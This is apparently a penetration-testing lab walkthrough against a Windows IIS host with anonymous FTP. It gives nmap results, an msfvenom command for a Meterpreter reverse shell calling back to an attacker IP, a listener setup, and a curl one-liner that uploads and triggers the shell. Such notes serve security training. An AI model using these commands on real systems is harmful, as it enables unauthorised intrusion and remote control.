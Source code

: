## nmap (21)
``` 
21/tcp    open  ftp          syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-07-19  10:25PM       <DIR>          aspnet_client
| 04-07-19  07:14PM                99710 iis-85.png
|_04-07-19  07:14PM                  701 iisstart.htm
| ftp-syst: 
|_  SYST: Windows_NT
```

## nmap (4176)
``` 
4167/tcp  open  http         syn-ack Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
```

**ASPX reverse shell**
```
#shell.aspx
https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
```

**Generate ASPX reverse shell using MSFVenom**
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.119.123 LPORT=9001 -f aspx > shell.aspx 
```

**Meterpreter listener**
```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 192.168.119.123; set lport 9001; exploit"
```

**Upload and execute shell**
```shell
curl -u anonymous: -T shell.aspx ftp://10.11.1.13/shell.aspx && curl http://10.11.1.13:4167/shell.aspx
```


> [!info] 
> If the user has `SetImpersonate` or `SetAssignPrimaryToken` privileges then you are **SYSTEM**. 

![[disco-http-privs.png]]
